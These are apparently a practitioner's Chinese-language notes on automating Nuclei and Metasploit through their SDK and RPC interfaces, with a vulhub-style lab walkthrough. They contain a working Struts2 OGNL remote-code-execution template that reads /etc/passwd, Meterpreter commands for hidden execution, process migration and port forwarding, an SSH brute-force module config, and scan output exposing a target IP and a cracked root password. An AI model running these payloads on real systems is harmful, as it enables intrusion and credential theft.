


## 01.Nuclei
官方提供GO SDK, 可以直接使用GO语言进行二次开发   
代码示例，其中需要注意的SDK内部的实现，传参的方式有2种:
- 通过WithOptions(opts),一次性把所有参数都传过去，这里需要注意的通过WithOptions不做字段合并，不做兜底校验，不关心顺序副作用，需要把所有必要的参数都传过去，后来的 option 可以覆盖前面的任何东西
- 通过WithXXX，两者不能同时使用，会覆盖，这种方式只会覆盖指定的字段，不会全部覆盖
```go
// Package nucleiSDK
// @author: liuyanfeng
// @date: 2026/1/21 15:14
// @description:
package main

import (
	"fmt"
	nuclei "github.com/projectdiscovery/nuclei/v3/lib"
	"github.com/projectdiscovery/nuclei/v3/pkg/output"
	"github.com/projectdiscovery/nuclei/v3/pkg/types"
	"sync"
)

type CustomResultHandler struct {
	results []*output.ResultEvent
	mu      sync.Mutex
}

func (h *CustomResultHandler) Handle(event *output.ResultEvent) {
	h.mu.Lock()
	defer h.mu.Unlock()

	h.storeResult(event)
}

func (h *CustomResultHandler) storeResult(event *output.ResultEvent) {
	// store result to database
	if event.MatcherStatus {
		fmt.Printf("📊 命中规则:\n")
		fmt.Printf("TemplateID: %+v\n", event.TemplateID)
		fmt.Printf("TemplatePath: %+v\n", event.TemplatePath)
		fmt.Printf("Type: %+v\n", event.Type)
		fmt.Printf("Matched: %+v\n", event.Matched)
		fmt.Printf("================================")
	}
}

func main() {
	opts := types.DefaultOptions()
	opts.ExecutionId = "1234567890"
	opts.Templates = []string{"D:\\DevTools\\nuclei-templates-10.3.5\\nuclei-templates-10.3.5\\http"}
	//opts.NoInteractsh = true
	// create nuclei engine with options
	ne, err := nuclei.NewNucleiEngine(
		nuclei.WithOptions(opts),
		//nuclei.WithInteractshOptions(nuclei.InteractshOpts{
		//	NoInteractsh: true,
		//}),
		//nuclei.WithTemplatesOrWorkflows(nuclei.TemplateSources{
		//	Templates: []string{"D:\\DevTools\\nuclei-templates-10.3.5\\nuclei-templates-10.3.5\\http"},
		//}),
	)
	if err != nil {
		fmt.Println(err)
	}

	// with custom result handler
	handler := &CustomResultHandler{}
	// load targets and optionally probe non http/https targets
	ne.LoadTargets([]string{"123.58.224.8:62385"}, true)
	err = ne.ExecuteWithCallback(handler.Handle)
	if err != nil {
		fmt.Println(err)
	}
	defer ne.Close()

}

```
### 扫描CVE-2021-31805示例
以CVE-2021-31805为例，以下具体的漏洞yaml，携带相关字段解释
```yaml
# 漏洞唯一标识，通常与 CVE 保持一致
id: CVE-2021-31805
info:
  # 漏洞名称，扫描结果中展示给用户
  name: Apache Struts2 S2-062 - Remote Code Execution
  # 模板作者
  author: taielab
  # 漏洞严重等级（info / low / medium / high / critical）
  severity: critical
  # 漏洞背景说明
  description: |
    Apache Struts2 S2-062 is vulnerable to remote code execution.
    The fix issued for CVE-2020-17530 (S2-061) was incomplete,
    meaning some of the tag's attributes could still perform a double
    evaluation if a developer applied forced OGNL evaluation by using
    the %{...} syntax.
  # 漏洞造成的直接影响
  impact: |
    Remote code execution
  # 官方修复建议
  remediation: |
    Avoid using forced OGNL evaluation on untrusted user input,
    and/or upgrade to Struts 2.5.30 or greater which checks if
    expression evaluation won't lead to the double evaluation.
  # 参考链接，便于溯源与复现
  reference:
    - https://cwiki.apache.org/confluence/display/WW/S2-062
    - https://github.com/Axx8/Struts2_S2-062_CVE-2021-31805
    - https://nvd.nist.gov/vuln/detail/CVE-2021-31805
    - http://www.openwall.com/lists/oss-security/2022/04/12/6
    - https://security.netapp.com/advisory/ntap-20220420-0001/
  classification:
    # CVSS 3.1 向量
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    # CVSS 分数
    cvss-score: 9.8
    # CVE 编号
    cve-id: CVE-2021-31805
    # 对应的 CWE（表达式注入）
    cwe-id: CWE-917
    # EPSS：漏洞被利用的概率评分
    epss-score: 0.93956
    epss-percentile: 0.99872
    # 受影响产品的 CPE 描述
    cpe: cpe:2.3:a:apache:struts:*:*:*:*:*:*:*:*
  metadata:
    # 本模板最多发起的 HTTP 请求次数
    max-request: 1
    # 厂商
    vendor: apache
    # 产品
    product: struts
    # Shodan 搜索指纹，用于资产发现
    shodan-query:
      - http.html:"apache struts"
      - http.title:"struts2 showcase"
      - http.html:"struts problem report"
    # FOFA 搜索指纹
    fofa-query:
      - body="struts problem report"
      - title="struts2 showcase"
      - body="apache struts"
    # Google 搜索指纹
    google-query: intitle:"struts2 showcase"
  # 标签，用于分类、过滤模板
  tags: cve2021,cve,apache,rce,struts,struts2,intrusive,vkev,vuln
http:
  - raw:
      - |
        # 使用 POST 请求触发表单解析
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
        Content-Length: 1095
        # multipart 表单起始边界
        ------WebKitFormBoundaryl7d1B1aGsV2wcZwF
        Content-Disposition: form-data; name="id"
        # 利用点：强制 OGNL 表达式 %{...}，触发双重解析
        %{
        (#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
        (#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
        (#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
        (#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
        (#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
        (#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
        (#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
        (#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
        # 最终通过 freemarker Execute 执行系统命令
        (#application.get('org.apache.tomcat.InstanceManager')
          .newInstance('freemarker.template.utility.Execute')
          .exec({'cat /etc/passwd'}))
        }
        # multipart 表单结束边界
        ------WebKitFormBoundaryl7d1B1aGsV2wcZwF—
    matchers:
      - type: regex
        # 从 HTTP 响应体中匹配命令执行结果
        part: body
        regex:
          - "root:.*:0:0:"
```
### 有效结果输出
依据上述代码，可实现Nuclei扫描结果的自定义处理，将匹配结果输出到控制台，或组装自定义的数据结构，进行后续的处理  

```text
📊 命中规则:
TemplateID: CVE-2021-31805
TemplatePath: D:\DevTools\nuclei-templates-10.3.5\nuclei-templates-10.3.5\http\cves\2021\CVE-2021-31805.yaml
Type: http
Matched: http://123.58.224.8:57546

================================
📊 命中规则:
TemplateID: cookies-without-secure
TemplatePath: D:\DevTools\nuclei-templates-10.3.5\nuclei-templates-10.3.5\http\misconfiguration\cookies-without-secure.yaml
Type: javascript
Matched: 123.58.224.8:57546
================================
📊 命中规则:
TemplateID: cookies-without-httponly
TemplatePath: D:\DevTools\nuclei-templates-10.3.5\nuclei-templates-10.3.5\http\misconfiguration\cookies-without-httponly.yaml
Type: javascript
Matched: 123.58.224.8:57546
================================
📊 命中规则:
TemplateID: xss-fuzz
TemplatePath: D:\DevTools\nuclei-templates-10.3.5\nuclei-templates-10.3.5\http\vulnerabilities\generic\xss-fuzz.yaml
Type: http
Matched: http://123.58.224.8:57546/?image=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-image%27%29%3E&id=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-id%27%29%3E&order=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-order%27%29%3E&sid=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-sid%27%29%3E&language=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-language%27%29%3E&filter=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-filter%27%29%3E&import=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-import%27%29%3E&st=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-st%27%29%3E&act=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-act%27%29%3E&object=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-object%27%29%3E&insert=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-insert%27%29%3E&task=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-task%27%29%3E&dismiss=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-dismiss%27%29%3E&orderby=%27%3E%22%3Csvg%2Fonload=confirm%28%27xss-orderby%27%29%3E
================================

```

### 注意
- `ExecutionId` 作用
  - 一次 `Nuclei` 扫描执行的全局唯一身份标识
- `nuclei`初始化顺序
  - `NewNucleiEngineCtx`执行开始会创建一个默认的`types.DefaultOptions()`和`ExecutionId`
  - 接下来通过`for _, option := range options`读取传入的配置`（WithOptions、Withxxx）`
  - 问题出现在`WithOption`中，内部会执行`e.opts = opts`，直接全部覆盖掉之前默认生成的，而次是如果你传入的`opts`没有`ExecutionId`，那么最终的`e.opts.ExecutionId`就是空的

## 02.Metasploit

### 漏洞靶场平台部署
参考：
- https://blog.csdn.net/qxx5203/article/details/147230714
- https://vulhub.org/zh

### CVE-2015-3306漏洞复现
简介: ProFTPD是ProFTPD团队的一套开源的FTP服务器软件。该软件具有可配置性强、安全、稳定等特点。 ProFTPD 1.3.5中的mod_copy模块允许远程攻击者通过站点cpfr和site cpto命令读取和写入任意文件。任何未经身份验证的客户端都可以利用这些命令将文件从文件系统的任何部分复制到选定的目标。 复制命令使用ProFTPD服务的权限执行，默认情况下，该服务在“nobody”用户的权限下运行。 通过使用/ proc / self / cmdline将PHP有效负载复制到网站目录，可以实现PHP远程代码执行。
1. vulfocus启动环境

2. 启动msfconsole,搜索相关漏洞

3. 使用该exploit, 设置相关参数

4. 执行exploit, 成功反弹shell, 

flag在/tmp中,通过env也可以查看

5. 下一步可以尝试提权到root
上传到提权检查脚本linuxprivchecker.py到目标下 `upload "xx\linuxprivchecker.py" /tmp/linuxprivchecker.py`  
  
执行`execute -f python /tmp/linuxprivchecker.py`
可通过`shell` 检查命令权限  
```shell
shell
[*] Trying to find binary 'python' on the target machine
[-] python not found
[*] Trying to find binary 'python3' on the target machine
[-] python3 not found
[*] Trying to find binary 'script' on the target machine
[*] Found script at /usr/bin/script
[*] Using `script` to pop up an interactive shell
```
从上述漏洞复现的步骤来看，大体的一个渗透流程如下：
1. 进入msfconsole
2. 搜索相关漏洞
3. 设置相关参数
4. 执行exploit, 成功反弹shell
5. 下一步可以尝试提权到root

### Meterpreter常用命令
在获取到shell后，可使用以下命令进行交互操作，不同的操作环境，可使用的命令会有所不同
#### 基本命令  
```bash
background
# 保存会话，返回msfconsole
session
# 查看所有会话，进入会话：session -i <session id>
quit
# 关闭当前会话
shell
# 会话下使用，获取shell
```
#### 文件系统命令  
```bash
cat
# 查看文件内容
getwd
# 查看当前在目标的工作目录
upload nc.exe c:\
# 上传文件，-r上传目录
download c:\\nc.exe
# 下载文件，双斜杠需转移
edit c:\\windows\\system32\\drivers\\etc\\hosts
# 对文件进行编辑
search -d c:\\ -f *.mdb
# 搜索文件
```

#### 网络命令  
```bash
ipconfig
portwd add -l 1234 -p 3389 -r 192.168.1.131
# 端口转发，例：目标端口只允许内网访问3389，那么可用此条命令将其3389端口转发到本地，实现本地访目标3389端口
# -l本地端口发放，-r目标ip
route
# 路由信息
```

#### 系统命令  
```bash
ps
# 查看进程
migrate <pid>
# 将meterpreter会话转移到其它稳定进程，如explorer.exe
execute -H -i -f cmd.exe
# 在目标上隐藏执行cmd
getpid
# 获取当前meterpreter注入进程的pid
kill <pid>
# 结束指定进程
get uid
# 获得用户名，从而查看权限
sysinfo
# 系统信息
shutdown
# 关机
```
### RPC服务

目前 Metasploit 的 RPC 有两种实现方式： 
- HTTP 和 Messagepack 
- HTTP 和 JSON  
二者区别：  

| 维度 | JSON-RPC | Messagepack-RPC |  
| ---- | ---- | ---- |
| 启动方式 | Rack Web Server（Thin/Puma 等）       | `msfrpcd` |
| 数据格式 | JSON | Messagepack |
| 特性 | 文本格式、更容易调试 | 二进制、更高效、更适合程序调用 |
| 性能 | 相对较慢 | 较快 |
| 调用函数 | HTTP POST JSON–RPC 2.0     |  rpc.call(…)       |


| 维度   | msfconsole + msfrpc | msfrpcd   |
| ---- | ------------------- | --------- |
| 进程模型 | 依附 console          | 独立 daemon |
| 是否交互 | 是                   | 否         |
| 生命周期 | 手动                  | 服务级       |
| 自动化  | ❌                   | ✅         |
| 稳定性  | 一般                  | 高         |
| 平台集成 | ❌                   | ✅         |
| 官方定位 | 调试                  | 正式 RPC    |

按照官网文档说明，msfrpcd 是官方推荐的 RPC 服务，它是独立的守护进程，可以通过 `msfrpcd -h` 查看帮助信息。   
```shell
# 启用方式
msfrpcd -a 0.0.0.0 -p 55553 -U msf -P msf -S -f
# 看到如下输出，则表示启动成功
[*] MSGRPC starting on 0.0.0.0:55553 (NO SSL):Msg...
[*] MSGRPC ready at 2026-01-27 17:15:46 +0800.
# 同时也可确认进程端口是否占用来确认启动完成
netstat -ano | findstr 55553
```

::: info 提示
下面这段代码截取自 
[dr0op/msfrpcapi](https://github.com/dr0op/msfrpcapi){target="_blank" rel="noreferrer"}
:::

```python
# 一个简单的python连接示例

# _*_ encoding:utf-8 _*_
# __author__ = "dr0op"
# python3

import msgpack
import http.client

HOST="127.0.0.1"
PORT="55553"
headers = {"Content-type" : "binary/message-pack"}

# 连接MSF RPC Socket
req = http.client.HTTPConnection(HOST, PORT)
options = ["auth.login","msf","msf"]
# 对参数进行序列化（编码）
options = msgpack.packb(options)
# 发送请求，序列化之后的数据包
req.request("POST","/api/1.0",body=options,headers=headers)
# 获取返回
res = req.getresponse().read()
# 对返回进行反序列户（解码）
res = msgpack.unpackb(res)
res = res[b'token'].decode()
print(res)
# 将输出{'result': 'success', 'token': 'TEMPSsU2eYsNDom7GMj42ZldrAtQ1vGK'}
```
#### RPC API 文档
[rpc standard api 官方文档](https://docs.rapid7.com/metasploit/standard-api-methods-reference/)  

如果想基于代码实现一个完整的渗透流程，其基本流程应该如下：
1. 登录`msfrpcd`, 获取`token`, 存储`token`,用于后续操作
2. 创建一个`console`终端, 用于执行命令，`console`自己有`write`和`read`的方法实现
3. 整理命令，发送命令到`console.write`,例如一个完整的命令应如下
```shell
  cmd = """
    use auxiliary/scanner/ssh/ssh_login # 使用ssh登录模块
    set RHOSTS 127.0.0.1                # 设置目标ip
    set USERNAME root                   # 设置用户名
    set PASS_FILE /tmp/pass.txt         # 设置密码文件
    exploit                             # 执行模块
  """
```
4. 轮询结果`console.read`, 获取结果
5. 销毁终端`console.destroy`

### 有效结果输出
MSF 没有像 Nuclei 那样天然标准化的有效输出判定，比如命中了哪个模板，具体的命中规则

MSF 的有效输出，需要结合模块的输出内容来判断，比如如下是对主机进行ssh_login测试
```shell
# 未登录成功
[*] 127.0.0.1:22          - Starting bruteforce
[*] 127.0.0.1:22 SSH - Testing User/Pass combinations
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```shell
# 登录成功
[*] 10.253.14.5:22        - Starting bruteforce
[*] 10.253.14.5:22 SSH - Testing User/Pass combinations
[+] 10.253.14.5:22        - Success: 'root:antiy?pmc' 'uid=0(root) gid=0(root) groups=0(root) Linux localhost.localdomain 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (10.253.109.4:53765 -> 10.253.14.5:22) at 2026-02-02 15:02:42 +0800
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
通过代码完整的执行如下图：  

对于msf的结果判断仍需进一步的考虑